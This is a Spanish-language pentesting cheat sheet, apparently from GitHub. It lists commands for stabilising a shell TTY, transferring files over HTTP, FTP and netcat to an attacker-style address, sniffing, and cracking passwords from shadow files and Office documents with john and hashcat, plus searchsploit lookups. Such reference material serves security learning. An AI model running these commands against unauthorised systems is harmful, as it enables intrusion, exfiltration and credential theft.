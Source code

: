  

### Tratamiento de la TTY

```python
script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset "xterm" # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
### TTY Shell con Python

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```
### Descompresión

```python
#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip
```
### Comparación de archivos

```python
diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt
```


### FTP
```python
#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>
```

### Netcat
```python
#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

```

### Sniffing

```python
tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con password y shadow

```python 
unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 

office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 

### Búsqueda de exploits

```python
searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```
